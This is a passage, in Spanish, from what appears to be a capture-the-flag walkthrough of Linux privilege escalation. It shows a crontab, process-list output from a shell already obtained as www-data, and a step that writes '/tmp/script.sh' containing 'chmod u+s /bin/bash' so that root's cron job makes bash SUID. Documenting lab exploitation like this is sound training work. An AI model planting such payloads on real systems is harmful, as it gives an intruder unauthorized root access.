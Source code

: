 ```
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
# 
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
# 
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
# 
# For more information see the manual pages of crontab(5) and cron(8)
# 
# m h  dom mon dow   command

#*/1 * * * * chmod +r /var/spool/cron/crontabs/root
/opt/update.sh
/tmp/script.sh
```

Vemos que `root.sh` es un script y no un `crontab` por lo que vamos a ver que se esta ejecutando a nivel de sistema:

```shell
ps aux
```

Info:

```
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   2800  1792 ?        Ss   13:10   0:00 /bin/sh -c service apache2 start && service cron start && while true; do /var/spool/cron/c
root          24  0.0  0.2 203476 21832 ?        Ss   13:10   0:00 /usr/sbin/apache2 -k start
www-data      29  0.0  0.1 203720 15780 ?        S    13:10   0:00 /usr/sbin/apache2 -k start
www-data      30  0.0  0.1 203548 14756 ?        S    13:10   0:00 /usr/sbin/apache2 -k start
www-data      31  0.0  0.1 203508  9636 ?        S    13:10   0:00 /usr/sbin/apache2 -k start
www-data      32  0.0  0.1 203508  9636 ?        S    13:10   0:00 /usr/sbin/apache2 -k start
www-data      33  0.0  0.1 203508  9636 ?        S    13:10   0:00 /usr/sbin/apache2 -k start
root          41  0.0  0.0   3808  1796 ?        Ss   13:10   0:00 /usr/sbin/cron -P
www-data      47  0.0  0.1 203508  9636 ?        S    13:10   0:00 /usr/sbin/apache2 -k start
www-data      48  0.0  0.0   2800  1792 ?        S    13:11   0:00 sh -c sh
www-data      49  0.0  0.0   2800  1792 ?        S    13:11   0:00 sh
www-data      51  0.0  0.0   2716  1792 ?        S    13:11   0:00 script /dev/null -c bash
www-data      52  0.0  0.0   2800  1664 pts/0    Ss   13:11   0:00 sh -c bash
www-data      53  0.0  0.0   4588  3584 pts/0    S    13:11   0:00 bash
root          72  0.0  0.0   2696  1536 ?        S    13:12   0:00 sleep 60
www-data      76  0.0  0.0   7888  3968 pts/0    R+   13:12   0:00 ps -aux
```

Por lo que vemos esta ejecutando el `root.sh` cada minuto, pero como bien hemos visto tambien esta ejecutando a la vez el `/tmp/script.sh` por lo que podremos salir con `exit` del usuario y crearlo con `www-data` para que no nos expulse.

```shell
nano /tmp/script.sh

#Dentro del nano
#!/bin/bash

chmod u+s /bin/bash
```
